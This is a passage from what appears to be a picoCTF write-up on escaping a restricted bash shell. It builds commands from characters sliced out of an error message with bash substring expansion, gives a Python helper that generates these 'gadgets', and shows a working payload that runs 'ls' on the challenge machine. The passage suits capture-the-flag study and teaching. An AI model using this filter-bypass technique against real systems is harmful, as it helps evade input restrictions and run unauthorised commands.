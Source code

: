 As there's no letter 'l' in the division by zero error, we could trigger a
different error like trying to source a nonexistent file like `1` using the
dot command.

```
"$(. 1 2>&1)"
```

```
bash: 1: No such file or directory
```

## Building gadgets

We can use the same substring technique as in the previous section to extract
characters from the error message. To automate this, we create a small python
function.

```python
def generate(haystack: str, to_build: str):
    return ''.join(
        "${{_:{}:1}}".format(
            haystack.index(needle)
        )
        for needle in to_build
    )
```

- `haystack` refers to the error message wherein we look for the letters
- `needle` represents each letter that come together `to_build` the command we want to issue.

The outputs of such small functions that work together to build a larger exploit
are call _"gadgets"_.

## Chaining gadgets

We can call the function like the following to build the payload for calling `ls`:

```python
msg = 'bash: 1: No such file or directory'
generate(msg, 'ls')
```

```sh
${_:19:1}${_:2:1}
```

Let's use this immediately after detonating the sourcing error.
Putting everything together, we'll run the following payload on the picoCTF machine.

```sh
"$(. 1 2>&1)"
${_:19:1}${_:2:1}
```

```
bash: bash: 1: No such file or directory: command not found
blargh    on-calastran.txt
```
